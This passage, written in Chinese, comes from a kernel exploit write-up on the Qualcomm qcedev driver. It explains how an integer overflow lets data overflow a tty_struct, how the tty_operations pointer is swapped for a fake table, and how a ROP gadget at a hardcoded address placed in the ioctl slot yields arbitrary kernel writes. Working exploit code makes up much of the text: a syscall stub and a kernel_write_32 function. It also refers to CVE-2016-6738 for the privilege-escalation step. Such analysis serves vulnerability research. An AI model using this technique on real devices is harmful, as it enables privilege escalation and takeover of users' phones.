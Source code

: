 这样他们加起来溢出之后的值就是 632， 这个长度刚好是 struct tty_struct 的长度，我们用 qcedev_sha_op_req.data[0].vaddr[4096]这个数据来填充被溢出的 tty_struct 的内容

主要是填充两个地方，一个是最开头的 tty magic, 另一个就是偏移 24Bype 的 tty_operations 指针，我们将这个指针覆盖为伪指针 fake_ptm_fops.

之后的提权操作与 cve-2016-6738 类似，

```
include/linux/tty_driver.h

struct tty_operations `{`
        struct tty_struct * (*lookup)(struct tty_driver *driver,
                        struct inode *inode, int idx);
        int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
        void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
        int  (*open)(struct tty_struct * tty, struct file * filp);
        void (*close)(struct tty_struct * tty, struct file * filp);
        void (*shutdown)(struct tty_struct *tty);
        void (*cleanup)(struct tty_struct *tty);
        int  (*write)(struct tty_struct * tty,
                      const unsigned char *buf, int count);
        int  (*put_char)(struct tty_struct *tty, unsigned char ch);
        void (*flush_chars)(struct tty_struct *tty);
        int  (*write_room)(struct tty_struct *tty);
        int  (*chars_in_buffer)(struct tty_struct *tty);
        int  (*ioctl)(struct tty_struct *tty,
                    unsigned int cmd, unsigned long arg);
        long (*compat_ioctl)(struct tty_struct *tty,
                             unsigned int cmd, unsigned long arg);
...
`}`
```

如上，ioctl 函数在 tty_operations 结构体里偏移 12 个指针，当我们用 ROP_WRITE 覆盖这个位置时，可以得到一个内核地址写函数。

```
#define ioctl_syscall(n, efd, cmd, arg) 
        eabi_syscall(n, efd, cmd, arg)
ENTRY(eabi_syscall)
        mov     x8, x0
        mov     x0, x1
        mov     x1, x2
        mov     x2, x3
        mov     x3, x4
        mov     x4, x5
        mov     x5, x6
        svc     #0x0
        ret
END(eabi_syscall)
/* 
 ＊　rop write
 * ffffffc000671a58:       b9000041        str     w1, [x2]
 * ffffffc000671a5c:       d65f03c0        ret
 */
#define ROP_WRITE               0xffffffc000671a58

static int kernel_write_32(unsigned long addr, unsigned int val)
`{`
        unsigned long arg;

        *(unsigned long*)(fake_ptm_fops + 12 * 8) = ROP_WRITE;

        arg = addr;
        ioctl_syscall(__NR_ioctl, fake_fd, val, arg);
        return 0;
`}`
```